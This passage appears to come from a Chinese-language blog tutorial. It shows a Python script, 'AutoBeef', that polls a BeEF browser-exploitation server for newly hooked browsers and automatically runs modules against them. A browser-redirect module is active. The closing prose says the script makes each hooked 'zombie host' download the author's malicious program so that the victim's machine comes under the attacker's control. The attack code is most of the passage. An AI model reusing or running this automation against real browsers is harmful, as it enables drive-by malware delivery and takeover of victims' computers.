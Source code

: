 
<span nodeIndex="831">def</span> autoRunModules(host,session,authkey):
    <span nodeIndex="832">#</span><span nodeIndex="833">sendConfirm(host, session, authkey)</span>
    <span nodeIndex="834">#</span><span nodeIndex="835">execJavascript(host, session, authkey)</span>
    redirectBrowser(host, session, authkey)


<span nodeIndex="836">def</span> timeRun(interval,host):
    authkey = getauthkey(host)
    <span nodeIndex="837">print</span> <span nodeIndex="838">"</span><span nodeIndex="839">[+] AutoBeef is running....</span><span nodeIndex="840">"</span>
    <span nodeIndex="841">print</span> <span nodeIndex="842">"</span><span nodeIndex="843">[+] BeEF KEY is : </span><span nodeIndex="844">"</span>+ authkey
    <span nodeIndex="845">print</span> <span nodeIndex="846">"</span><span nodeIndex="847">[+] Base BeEF API URL: </span><span nodeIndex="848">"</span>+ host + <span nodeIndex="849">"</span><span nodeIndex="850">api/</span><span nodeIndex="851">"</span>
    <span nodeIndex="852">print</span> <span nodeIndex="853">"</span><span nodeIndex="854">[+] Hook URL   : </span><span nodeIndex="855">"</span> + host + <span nodeIndex="856">"</span><span nodeIndex="857">hook.js</span><span nodeIndex="858">"</span>
    <span nodeIndex="859">print</span> <span nodeIndex="860">"</span><span nodeIndex="861">[+] Hook Demo  : </span><span nodeIndex="862">"</span> + host + <span nodeIndex="863">"</span><span nodeIndex="864">demos/basic.html</span><span nodeIndex="865">"</span>
    <span nodeIndex="866">while</span> True:
        <span nodeIndex="867">try</span>:
            getHookedBrowsersSession(host, authkey)
            <span nodeIndex="868">for</span> x <span nodeIndex="869">in</span> hostdict:
                <span nodeIndex="870">if</span> hostdict[x] <span nodeIndex="871">not</span> <span nodeIndex="872">in</span> hostlist:
                    hostlist.append(hostdict[x])
                    autoRunModules(host,hostdict[x],authkey)
            time.sleep(interval)
        <span nodeIndex="873">except</span> Exception, e:
            <span nodeIndex="874">print</span> e

<span nodeIndex="875">if</span> <span nodeIndex="876">__name__</span> == <span nodeIndex="877">'</span><span nodeIndex="878">__main__</span><span nodeIndex="879">'</span>:
    beefhost = <span nodeIndex="880">"</span><span nodeIndex="881">http://192.168.1.133:3000/</span><span nodeIndex="882">"</span>
    timeRun(3,beefhost)
 <br nodeIndex="883"></code>
</pre>
<p nodeIndex="221">代码比较挫，没有什么要说的。利用了time库,每隔3秒读取一次hook信息，检查是否有新上线主机，你可以根据自己的需要调整这个时间。每个模块调用函数都是独立的，你可以单独进行测试之后，添加到modules方法中即可。编写代码过程中容易遇到问题的地方是处理返回的数据，需要注意str，dict，list等数据类型的处理与转换。我先只测试执行一个Redirect Browser模块 ：</p>


<p nodeIndex="223">程序检测到有新上线的僵尸主机，会控制浏览器自动下载我们的恶意程序</p>




<p nodeIndex="226">一旦受害者点击这个程序，我们可以获得进一步权限。</p>




<p nodeIndex="229">当受害者运行恶意软件时，我们便控制了僵尸主机</p>
